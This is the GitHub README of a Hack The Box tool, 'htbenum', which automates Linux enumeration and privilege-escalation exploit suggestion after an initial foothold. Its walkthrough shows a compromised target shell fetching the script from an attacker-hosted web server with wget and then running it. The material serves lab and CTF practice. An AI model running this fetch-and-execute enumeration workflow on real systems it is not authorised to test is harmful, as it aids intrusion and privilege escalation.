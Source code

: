 # htbenum
*A Linux enumeration script for Hack The Box*

![GitHub](https://img.shields.io/github/license/SolomonSklash/htbenum.svg?style=flat-square)
![Github language](https://img.shields.io/github/languages/top/SolomonSklash/htbenum.svg?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/SolomonSklash/htbenum.svg?style=flat-square)
![Github contributors](https://img.shields.io/github/contributors/SolomonSklash/htbenum.svg?style=flat-square)

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review.

**Pull requests/suggestions welcome!**

### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Provides an automatic download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both

### Usage
```
./htbenum.sh [update] IP port [directory]

 Parameters:
         update - Download latest versions of each tool, overwriting any existing versions.
         IP - IP address of the listening web server used to tools for download.
         port - TCP port of the listening web server used to tools for download.
         directory - custom download and report creation directory (default is /tmp).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh update
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start a webserver in the same directory (Apache, `python3 -m http.server 80`, `python -m SimpleHTTPServer 80`, etc).

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh 10.10.99.100 80
```
Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `directory` parameter.
